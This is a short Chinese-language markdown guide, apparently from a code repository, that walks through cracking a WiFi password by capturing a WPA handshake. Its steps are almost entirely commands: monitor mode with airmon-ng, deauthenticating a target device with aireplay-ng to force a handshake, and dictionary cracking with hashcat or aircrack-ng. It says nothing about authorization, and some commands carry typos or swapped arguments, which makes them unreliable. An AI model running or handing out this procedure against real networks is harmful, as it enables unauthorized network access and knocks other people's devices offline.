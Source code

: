 # 通过握手包获取 WiFi 密码

1. 查看網絡設備, 獲取無線網卡名稱.

   ```bash
   iwconfig
   ```

2. 開啓無線網卡監聽模式.

   ```bash
   sudo airmon-ng start wlan0
   ```

   若设备被占用, 执行下列命令来结束占用设备的进程:  

   ```bash
   sudo airmon-ng check kill
   ```

   開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.
   **注意**: 監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 WiFi 信號.

   ```bash
   sudo airodunp-ng wlan0mon
   ```
   
   當發現目標 WiFi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 WiFi 通信內容.

   ```bash
   sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
   ```

5. 斷開指定設備與指定 WiFi 的鏈接.

   ```bash
   sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
   ```

   目標設備從指定 WiFi 斷開鏈接後將嘗試重連, 會向路由器發送握手包. 而第4步將會捕獲這個握手包.

6. 當第4步提示捕獲握手包時按下`Ctrl+C`結束監聽.

   此時, 握手包的數據已經被記錄在第4步指定的`.cap`文件中.

7. 對`.cap`文件中握手包的hash進行破解.

   - 使用 Hashcat. (推薦)

      ```bash
      aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
      hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
      ```

   - 使用 aircrack-ng.

      ```bash
      aircrack-ng -w [.cap存檔文件] [字典文件]
      ```

8. 關閉無線網卡監聽模式.

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
